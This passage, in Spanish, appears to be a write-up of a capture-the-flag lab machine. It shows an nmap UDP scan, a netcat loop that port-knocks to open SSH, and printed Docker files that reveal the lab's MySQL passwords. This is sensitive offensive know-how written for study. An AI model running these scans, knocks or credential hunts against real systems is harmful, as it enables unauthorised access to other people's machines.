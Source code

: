 Tengo conectividad con los puertos necesarios para el ```PortKnocking```

```null
nmap -p40809,50212,46969 -sU 10.10.10.96 --open
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 20:18 GMT
Nmap scan report for 10.10.10.96
Host is up (0.14s latency).

PORT      STATE         SERVICE
40809/udp open|filtered unknown
46969/udp open|filtered unknown
50212/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.79 seconds
```

Para efecturlo, tengo que enviar una cadena a cada puerto por el orden correspondiente, da igual el contenido

```null
for port in 40809 50212 46969; do echo "cadena" | nc -uw 1 10.10.10.96 $port; done
```

Y el puerto 22 se abre

```null
nmap -p22 10.10.10.96
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 20:21 GMT
Nmap scan report for 10.10.10.96
Host is up (0.26s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```

En un archivo de configuración de ```Docker```, se está aplicando una copia de un archivo de ```MySQL```

```null
/containers/database # cat Dockerfile 
FROM mariadb:5

MAINTAINER incidrthreat@gmail.com

COPY ./my.cnf /etc/mysql/my.cnf

EXPOSE 3306
```

Las credenciales se encuentran en un script de bash

```null
/containers/database # cat start.sh 
#!/bin/bash

docker run -d -v /connect/mysql:/var/lib/mysql --name ozdb \
--net prodnet --ip 10.100.10.4 \
-e MYSQL_ROOT_PASSWORD=SuP3rS3cr3tP@ss \
-e MYSQL_USER=dorthi \
-e MYSQL_PASSWORD=N0Pl4c3L1keH0me \
-e MYSQL_DATABASE=ozdb \
-v /connect/sshkeys:/home/dorthi/.ssh/:ro \
-v /dev/null:/root/.bash_history:ro \
-v /dev/null:/root/.ash_history:ro \
-v /dev/null:/root/.sh_history:ro \
--restart=always \
mariadb:5.5
```